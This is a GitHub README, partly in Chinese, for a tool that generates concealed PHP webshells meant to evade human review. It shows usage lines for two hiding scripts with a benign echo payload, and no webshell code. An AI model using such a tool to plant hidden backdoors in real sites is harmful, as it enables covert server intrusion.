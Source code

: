 # webshell-bypassed-human
过人 webshell 的生成工具

```shell
» python hide_webshell.py
[!] usage: python hidden_webshell.py payload filename [output_filename]
  [-] example: python hidden_webshell.py 'system("echo \"hacked by Tr0y :)\"");' webshell.php
```

## hide webshell
示例：

`python hide_webshell.py 'system("echo \"hacked by Tr0y :)\"");' normal.php`

## hide webshell pro
示例：

`python hide_webshell_pro.py 'system("echo \"hacked by Tr0y :)\"");' normal_pro.php`

## 其他
[![Stargazers over time](https://starchart.cc/Macr0phag3/webshell-bypassed-human.svg)](https://starchart.cc/Macr0phag3/webshell-bypassed-human)
